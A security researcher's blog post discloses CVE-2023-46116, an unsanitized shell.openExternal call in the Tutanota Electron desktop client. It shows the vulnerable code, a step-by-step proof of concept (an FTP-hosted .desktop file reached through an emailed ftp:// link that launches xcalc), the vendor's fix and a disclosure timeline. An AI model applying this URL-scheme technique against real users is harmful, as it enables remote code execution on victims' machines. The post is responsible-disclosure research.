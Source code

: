 ```yaml
---
title: "The Plight of Unsanitized Function Calls"
date: "2023-10-22T21:28:41+05:30"
author: "Prajyot Chemburkar"
cover:
    image: "images/cover.png" 
    alt: "some image that didn't load"
    caption: "(relevant xkcd - exploits of a mom)"
    responsiveImages: true
tags: ["Electron", "CVE", "RCE"]
keywords: ["electron", "code execution"]
description: "Been researching electron app security recently, decided to look at Tutanota."
showFullContent: true
readingTime: true
draft: false
showToc: true
tocOpen: true
showReadingTime: true
hideSummary: true
---
```


# Introduction
*Tutanota is the world's most secure email service, easy to use and private by design. You get fully encrypted calendars and contacts with all our personal and business email accounts.* ~[The Tutanota Website](https://tutanota.com/)

# Debugging Setup
Tutanota fortunately is open source. So all you have to do is download the application source, spin up vscode or any IDE of your liking and read away. Or you can use [grep.app](https://grep.app) to look at its code, which is what I did in this case.

I particularly like using Ubuntu with the XFCE desktop environment, as it makes it simpler to demonstrate exploits, as we will see later.

# Methodology
My methodology for reviewing electron applications, at least when it comes to *electron specific* vulnerabilities, is quite simple: Use a bottom up approach. Grep for sinks and then trace the source.

# Stumbling Upon a Sink
One of the common functions that developers use in electron apps is `openExternal` from the `shell` module. This function opens URLs' using their default or native applications. As an example, if you pass a URL with the `https:` scheme, `shell.openExternal` will spawn your default browser to open it.

The problem with this is, if developers do not sanitize this function call, and pass it user-controlled URLs', then an attacker may make use of schemes like `file:`, `ftp:`, `smb:`, etc. to gain code execution on a victim's computer. There's a ton of URL schemes availble that can be used to abuse this "feature", more on that [here](https://positive.security/blog/url-open-rce).

I found this unsanitized call to `shell.openExternal` in Tutanota's source:

```js
private onNewWindow(details: HandlerDetails): { action: "deny" } {
    const parsedUrl = parseUrlOrNull(details.url)

    if (parsedUrl == null) {
        log.warn(TAG, "Could not parse url for new-window, will not open")
    } else if (parsedUrl.protocol === "file:") {
        // this also works for raw file paths without protocol
        log.warn(TAG, "prevented file url from being opened by shell")
    } else {
        // we never open any new windows directly from the renderer
        // except for links in mails etc. so open them in the browser
        this.electron.shell.openExternal(parsedUrl.toString()).catch((e) => {
            log.warn("failed to open external url", details.url, e)
            this.electron.dialog.showMessageBox({
                title: lang.get("showURL_alt"),
                buttons: [lang.get("ok_action")],
                defaultId: 0,
                message: lang.get("couldNotOpenLink_msg", { "{link}": details.url }),
                type: "error",
            })
        })
    }

    return {
        action: "deny",
    }
}
```

Looks like the devs are sort of aware of what `shell.openExternal` can do, hence the blocked `file:` scheme. But there are way too many other schemes that we can use to abuse this.

# Using FTP to gain RCE
Execute and authenticate to the Tutanota desktop version `3.118.8` AppImage on a Ubuntu Desktop with the XFCE environment.
![tuta-install](images/tuta-install.png)

On another machine, host an FTP server with anonymous access enabled. Create and place a `pwn.desktop` file in the FTP root, with the following content:
```sh
[Desktop Entry]
Exec=xcalc
Type=Application
```

Send an email to the email account logged in on tutanota containing a hyperlink pointing to the `pwn.desktop` file on the FTP server. Replace the corresponding values in the hyperlink: `ftp://username:password@ip-address/pwn.desktop`.
![tuta-send-mail](images/tuta-send-mail.png)

On the tutanota desktop application, click on the hyperlink in the email received. Observe that the calculator application opens. You may need to confirm execution of the application in some cases.
![tuta-rce](images/tuta-rce.png)

# The Fix Deployed
Tutanota decided to fix the issue by adding a warning/confirmation dialouge before opening any links that are not http/https. This seemed like a good fix to me, as:
- It is confirmed that the user actually wants to open said link.
- It does not affect the use of legitimate deeplinks.

# Timeline
- September 26th 2023, 7:20 AM UTC, Reported to Tutanota
- September 26th 2023, 9:33 AM UTC, Fixed by Tutanota
- October 20th 2023, CVE-2023-46116 assigned
- December 15th 2023, Report disclosed